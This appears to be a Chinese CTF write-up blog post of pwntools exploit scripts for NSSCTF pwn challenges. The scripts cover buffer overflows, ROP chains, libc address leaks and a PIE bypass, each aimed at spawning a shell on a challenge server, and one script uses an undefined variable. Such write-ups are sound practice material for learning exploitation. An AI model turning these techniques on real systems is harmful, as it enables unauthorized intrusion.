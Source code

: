 ```yaml
---
title: 'NSSCTF_pwn_刷题笔记page'
date: 2024-03-16 13:00:00 +0800
categories: [合集]
tags: [ctf,pwn]
---
```

# NSSCTF_pwn_刷题笔记page(1)

### [SWPUCTF 2021 新生赛]gift_pwn

```python
from pwn import *
io = remote('node4.anna.nssctf.cn',28991)
padding = 16+8
shell = 0x4005B6

payload = b'A'*padding+p64(shell)
io.sendline(payload)

io.interactive()
```

### [SWPUCTF 2021 新生赛]whitegive_pwn

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28982)
#io = gdb.debug('./附件')
elf = ELF('./附件')
padding = 16+8
pop_rdi = 0x0000000000400763

payload = b'A'*padding + p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])

io.sendline(payload)

puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))

base_offset = puts_addr - 0x06f6a0
sys = 0x0453a0+base_offset
bin_sh = 0x18ce57+base_offset


payload1 = b'A'*padding+p64(pop_rdi)+p64(bin_sh)+p64(sys)
io.sendline(payload1)

io.interactive()
```

libc版本要另外搜索

###[CISCN 2019华北]PWN1

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 44
payload =b'A'*padding+p64(0x41348000)
io.sendlineafter(b'number.',payload)
io.interactive()
```

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 56
payload =b'A'*padding+p64(0x4006be)
io.sendlineafter(b'number.',payload)
io.interactive()
```

### [NISACTF 2022]ReorPwn?

```shell
hs/nib/
```

### [BJDCTF 2020]babystack2.0

```python
from pwn import *
context.log_level = 'debug'
#io = process('./pwn')
#io = gdb.debug('./pwn')
io = remote('node4.anna.nssctf.cn',28485)
padding = 12+8+4
payload = b'A'*padding+p64(0x400726)

io.sendlineafter('name:\n',b'-1')

io.sendlineafter('name?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [HNCTF 2022 Week1]easync

`nc`进去找,格式为nssctf{}

### [BJDCTF 2020]babystack

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ret2text')
#io = gdb.debug('./ret2text')
io = remote('node4.anna.nssctf.cn',28587)
padding = 12+8+4
payload = b'A'*padding+p64(0x4006e6)

io.sendlineafter('name:\n',b'100')

io.sendlineafter('?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [SWPUCTF 2022 新生赛]Does your nc work？

`nc`进去找

### [NISACTF 2022]ezstack

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28318)
elf = ELF('./pwn')
padding = 72+4

payload = b'A'*padding + p32(0x8048512)+p32(0x804A024)

io.sendline(payload)
io.interactive()
```

`32`位程序调用函数方法与`64`位不同

### [watevrCTF 2019]Voting Machine 1

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28007)
payload = b'A'*padding + p64(0x400807)

io.sendline(payload)
io.recvall()
io.interactive()
```

有后门函数...

### [NISACTF 2022]ezpie

```python
from pwn import *

#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28323)
padding = 44

io.recvuntil(b'gift!\n')
main_addr = eval(io.recvline().decode())
base_offset = main_addr - 0x770
shell_addr = base_offset+0x80F

payload = b'A'*padding +p32(shell_addr)

io.sendline(payload)
io.interactive()
```

主要是`pie`机制,和泄露`lib`差不多的思路

### [HGAME 2023 week1]test_nc

```shell
cat flag
```

### [GFCTF 2021]where_is_shell

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`,`tips`函数中提供了相应的机器码,又一个小知识点

### [HNCTF 2022 Week1]easyoverflow

```shell
1111111111111111111111111111111111111111111111111111
```

参数覆盖,溢出`v4`覆盖`v5`
